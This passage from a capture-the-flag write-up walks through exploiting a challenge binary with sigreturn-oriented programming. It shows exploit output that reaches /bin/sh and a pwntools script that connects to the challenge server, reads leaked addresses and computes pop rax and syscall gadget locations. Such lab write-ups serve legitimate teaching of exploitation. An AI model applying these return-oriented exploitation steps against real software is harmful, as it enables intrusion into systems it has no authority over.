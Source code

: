 ```
b'----------------------------------------------------------------------------\n~ Would you like another push (Y/*) >>>'
b' ~ Would you like another push (Y/*) >>>'
b' ~ push 0x58585858; ret |'
b' 0x557990cdb1c0\n'
pop rax ret at  0x557990cdb1c4
b'~ Would you like another push (Y/*) >>>'
b' ~ push 0x0f050f05; ret |'
b' 0x557990cdb1cf\n'
syscall at 0x557990cdb1d1
b'~ Would you like another push (Y/*) >>>'
[+] Receiving all data: Done (9B)
[*] Closed connection to 0.cloud.chals.io port 21978
b' /bin/sh\n'
winner
0x557990cdb025
37
```
## Leaking Parts of the Binary and Finally SIGROPing for Real This Time

Initially, I was tempted to just start leaking the full binary and analyzing that for gadgets, which could be done by starting at the likely beginning of the code section, printing "strings", and appending them together with null-terminators in between. However, this would take additional, and I realized that first, I probably should see what was going on with the code section leaks with which I had seemingly been provided. 

Here is the script to leak the supposed pop rax gadget:
```
from pwn import *

target = remote('0.cloud.chals.io', 21978)

print(target.recvuntil(b'Push your way to /bin/sh at :'))

leak = (target.recvline())
print(leak)
binsh = int(leak, 16)
print('binsh is at', hex(binsh))

payload = b'Y'
target.send(payload)
print(target.recvuntil(b'Would you like another push (Y/*) >>>'))
target.sendline(b'Y')

print(target.recvuntil(b'Would you like another push (Y/*) >>>'))
target.sendline(b'Y')
print(target.recvuntil(b'~ push 0x58585858; ret |'))
leak = (target.recvline())
print(leak)

pop_rax = int(leak, 16) + 4
print('pop rax ret at ', hex(pop_rax))

print(target.recvuntil(b'Would you like another push (Y/*) >>>'))
target.sendline(b'Y')
print(target.recvuntil(b'~ push 0x0f050f05; ret |'))
leak = (target.recvline())
print(leak)
syscall = int(leak, 16) + 2

print('syscall at', hex(syscall))

```